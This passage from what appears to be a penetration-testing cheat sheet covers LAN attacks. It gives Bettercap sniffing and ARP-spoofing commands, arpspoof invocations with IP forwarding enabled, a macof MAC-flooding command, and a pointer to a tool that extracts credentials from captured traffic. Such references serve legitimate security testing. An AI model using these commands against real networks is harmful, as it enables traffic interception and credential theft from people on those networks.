 ### Bettercap2

```bash
net.sniff on
net.sniff stats
net.sniff.output #Output file
net.sniff.local #Accept packets from this machine
net.sniff.filter
net.sniff.regexp
```

### Wireshark

Obviously.

### Capturing credentials

You can us tools like [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz) to parse credentials from a pcap or a live interface.

## LAN attacks

### ARP spoofing

ARP Spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.

#### **Bettercap2**

```bash
arp.spoof on
arp.ban on # No ipv4-redirect
arp.spoof.targets
arp.spoof.whitelist
arp.spoof.internal #Spoofed local connections (by default only Victim <--> Gateway
```

#### **Arpspoof**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```

### MAC Flooding - CAM overflow

Overflow the switch’s CAM table sending a lot of packets with different source mac address. When the CAM table is full the switch start behaving like a hub (broadcasting all the traffic).

```bash
macof -i <interface>
```
